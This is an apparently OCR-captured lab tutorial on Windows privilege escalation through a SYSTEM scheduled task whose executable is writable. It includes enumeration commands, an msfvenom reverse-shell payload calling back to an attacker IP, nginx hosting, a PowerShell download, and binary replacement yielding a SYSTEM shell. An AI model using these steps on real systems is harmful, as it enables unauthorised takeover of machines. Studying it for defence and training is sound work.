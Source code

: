 ## a
Schedule Task Windows Privilege Escalation

1. Introduction to Windows Task Scheduler
Windows Task Scheduler is a built-in service that allows users to automate the execution of tasks at specified times or upon certain triggers. Administrators commonly use this feature for system maintenance, but attackers can also exploit it for persistence and privilege escalation.
An adversary can manipulate scheduled tasks to execute malicious code with elevated privileges. This attack vector is particularly useful when a task is configured to run with SYSTEM privileges but its executable is writable by a low-privileged user.
2. Abusing Scheduled Tasks for Privilege Escalation
By identifying a scheduled task that executes as SYSTEM, an attacker with write permissions to its executable can replace it with a malicious payload. The next time the task runs, the payload executes with SYSTEM privileges, providing full control over the compromised machine.
The attack process follows these steps:
Identify a scheduled task running with SYSTEM privileges.
Check if the current user has write or modify permissions on the task's executable file.
Replace the executable with a malicious payload.
Wait for the task to run and gain a SYSTEM shell.
3. Setting Up the Lab Environment
For this demonstration, we set up a Windows 10 victim machine and a Kali Linux attacker machine.
Attacker: Kali Linux (192.168.100.10) running Metasploit Framework
Victim: Windows 10 (192.168.1.11) with a scheduled task
Creating the Scheduled Task for demo
Create C:\Custom Tasks\Backup\Test.exe	
Run the following PowerShell script as an administrator on the victim machine:
$Action = New-ScheduledTaskAction -Execute "C:\Custom Tasks\Backup\Test.exe"

$Trigger1 = New-ScheduledTaskTrigger -AtLogOn
$Trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Hours 24)

$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal

Register-ScheduledTask -TaskName "BackupTaskDemo" -InputObject $Task -Force
Explanation of Each Part of the Script:
$Action → Executes the file "C:\Custom Task\Backup\Test.ext".
$Trigger1 → Activates when the user logs in.
$Trigger2 → Repeats every 5 minutes for 24 hours after initialization.
$Principal → Runs with SYSTEM privileges, without requiring a password, and executes with the highest privileges.
Register-ScheduledTask → Registers the task with the name "BackupTaskDemo".
________________________________________
✅ Deleting the Task After Completion
If you want to remove the task after 24 hours, you can use the following PowerShell command:
powershell
CopyEdit
Start-Sleep -Seconds 86400  # Wait for 24 hours
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false
Alternatively, you can include this in the main script for automatic removal.
________________________________________
✅ Manually Deleting the Task If Needed
If you need to delete the task immediately, use:
powershell
CopyEdit
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false


Before we dive into the enumeration of scheduled tasks, we need to understand our visibility as a standard user.
Unfortunately for us as the attacker, Microsoft does something pretty smart and only allows standard users to view scheduled tasks that belong to them. This means that any tasks we are interested in, such as those created by the administrator, we will not see when trying to query for them.
For example, if we use the following command with administrative permissions, we can query the scheduled task to find information about how it works:
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
 

This provides us with a lot of good information about the task. For starters, the task name is “BackupTaskDemo”. Additionally we can see that the task runs every five minutes and executes as SYSTEM.

 Let’s check if our user is any interesting groups.
net user Heaven 
 

Enumerating Folder Permissions

we can check our permissions on the folder using the built-in icacls command. 
First, we will see how we can use the icacls command to check the permissions of folder and file ACLs.
The permissions we are looking for on the Backup folder are any one of the following three permissions:
(F) Full Control
(M) Modify
(W) Write
The user / group permissions we are looking for are the following:
The user we are currently logged in as (%USERNAME%)
Authenticated Users
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
We want to check the permissions of both the Backup folder as well as the permissions on the executable itself. Starting with the folder since it is most likely that the file permissions will be inherited from the folder permissions. This is the default behaviour; however, there are times we can find that the folder is not writeable but the file is.
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\Test.exe"
	 
This shows that authenticated users have the ability to Modify files in the folder. Also, we can see an (I) indicating that the permissions were inherited, as expected. We also see that the Backup folder has inherited permissions, ultimately meaning that we have Modify permissions on the Custom Tasks folder and those permissions have been inherited to all sub folders and files.

Exploiting a Scheduled Task to get a SYSTEM Shell
Now that we have found a scheduled task, we need to craft our own malware to replace the legitimate task binary.

Using Metasploit to create payload	

On Kali Linux, open a terminal and generate a malicious executable:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.10 LPORT=4444 -a x64 --platform Windows -f exe -o payload.exe
Step 3: Send Payload through Nginx Server
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
Setting Up a Listener on Kali Linux
To capture the reverse shell, the attacker sets up a Metasploit listener:
nc -nvlp 4444
Downloading the payload on Windows:

Invoke-WebRequest -Uri "http://192.168.100.10/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

	
Lastly, we need to move our malicious version of payload.exe into the C:\Custom Tasks\Backup folder.
Replacing the Original Executable


Copy-Item -Path "C:\Windows\Temp\payload.exe" -Destination "C:\Custom Tasks\Backup\Test.exe" -Force
	
when we check our listener, we have a SYSTEM shell!


	 

